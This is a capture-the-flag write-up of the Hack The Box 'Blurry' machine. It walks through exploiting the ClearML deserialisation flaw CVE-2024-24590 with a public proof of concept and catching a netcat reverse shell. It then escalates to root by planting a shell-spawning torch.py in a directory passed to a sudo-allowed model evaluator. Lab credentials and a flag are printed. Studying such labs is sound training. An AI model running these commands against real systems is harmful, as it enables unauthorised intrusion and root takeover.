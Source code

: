 ```yaml
---
title: HTB - Blurry
date: 2024-10-12 00:00:00 + 1000
categories: [Linux,Web App,CTF,HTB]
tags: [WebExploitation,Deserialization,ClearML,CVE-2024-24590]
comments: false
---
```


The Blurry HTB machine was compromised by exploiting a deserialisation vulnerability (CVE-2024-24590) in the ClearML API, leading to initial access as the `jippity` user. Privilege escalation was achieved by leveraging a `sudo` allowed command, `/usr/bin/evaluate_model`, to execute a crafted python script, resulting in root access.

## Common Enumerations

### Nmap

I fired up the `nmap -p- -sC -sV -oA recon/allport 10.10.11.19 --open` - which found two open ports (SSH-22, HTTP-80)

- Full port scan `-p-`
- Default Script `-sC`
- Version detection `-sV`
- Save the results to `-oA recon/allport`
- Only show open ports `--open`

```bash
$ sudo nmap -p- -sC -sV -oA recon/allport 10.10.11.19 --open
[sudo] password for ctf: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-09 12:37 AEST
Nmap scan report for 10.10.11.19
Host is up (0.0057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.67 seconds
```

It redirected to `app.blurry.htb`, so I added to my `/etc/hosts` file

### Website - 80

Browsing the `app.blurry.htb` brings up the login page for clearml. An open source platform for machine-learning-workflows; clearml is for streamline CI/CD for AI

![img](/assets/img/Blurry/1.webp)

Quick Google search, led me to "Deserialisation of Untrusted Data" - [CVE-2024-24590](https://security.snyk.io/vuln/SNYK-PYTHON-CLEARML-6230390) vulnerability
## Initial Access

Okay, so on the ClearML web interface, there was a project called "Black Swan" that was active

![img](/assets/img/Blurry/2.webp)

I did some more digging and found a Proof of Concept [PoC](https://github.com/LordVileOnX/ClearML-vulnerability-exploit-RCE-2024-CVE-2024-24590-) on GitHub 
### Testing PoC

Inside the "Black Swan" project, I saw options to create a "New Experiment" and "Create New Credentials."

![img](/assets/img/Blurry/3.webp)

The key was the credentials. I grabbed the access and secret keys and added `api.blurry.htb` and `files.blurry.htb` to `/etc/hosts`, so that all relevant domains pointed to the target machine. Here's what my hosts file now looked like:

```bash
10.10.11.19     app.blurry.htb api.blurry.htb files.blurry.htb
```

I now had the credentials to interact with the clearml api. Here's what that looked like:

```python
api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "BKF98AG8EEVIF5A2YXFD"
    "secret_key" = "BJ5qvWSvOz7mp2Of3EIBq4ioh1bHViDavaI9TRQcENjrcgJKq5"
  }
}
```

Next, I installed the `clearml` python package using `pip install clearml`. This is the library that the PoC and the CLI tool use to interact with the ClearML API. I then ran `clearml-init` to configure the API with the extracted credentials

```bash
$ clearml-init
ClearML SDK setup process

Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration) 
Or create a free account at https://app.clear.ml/settings/workspace-configuration

In settings page, press "Create new credentials", then press "Copy to clipboard".

Paste copied configuration here:
api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "BKF98AG8EEVIF5A2YXFD"
    "secret_key" = "BJ5qvWSvOz7mp2Of3EIBq4ioh1bHViDavaI9TRQcENjrcgJKq5"
  }
}
```

With the API credentials configured, I set up a netcat listener with the command `nc -lvnp 1337` on my attacking machine and ran the exploit from GitHub using `python3 exploit.py`

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.11.19] 35952
bash: cannot set terminal process group (2083): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$ whoami
whoami
jippity
jippity@blurry:~$ 
```

And boom! I got a shell as the user `jippity`
### Shell as jippity

I upgraded my shell to a more interactive one using Python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

Next up, I have grab that user flag

```text
328b36e9....
```

## Privilege escalation

Time to get root! I checked for any easy privilege escalation possibilities using `sudo -l`. This command lists the commands that the current user can run with `sudo` without a password. Jackpot! It turns out that `jippity` can run `/usr/bin/evaluate_model` with `sudo` privileges without a password

```bash
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
jippity@blurry:~$ 
```

I created a file in the `/models` directory called `torch.py` and filled it with python code to execute a bash shell. This is where the RCE comes in. Here's the command:

```bash
echo 'import os; os.system("bash")' > /models/torch.py
```

Then, I ran the sudo command with my malicious file like this: `sudo /usr/bin/evaluate_model /models/demo_model.pth`

```bash
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/demo_model.pth 
```

And there it was! Root access! I grabbed the root flag

```bash
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth 
[+] Model /models/demo_model.pth is considered safe. Processing...
root@blurry:/models# whoami
root
root@blurry:/models# 
root@blurry:/models# cat /root/root.txt
de5a6a7b9248be166602677182155eb4
root@blurry:/models# 
```

root.txt

```text
de5a6a7b92....
```
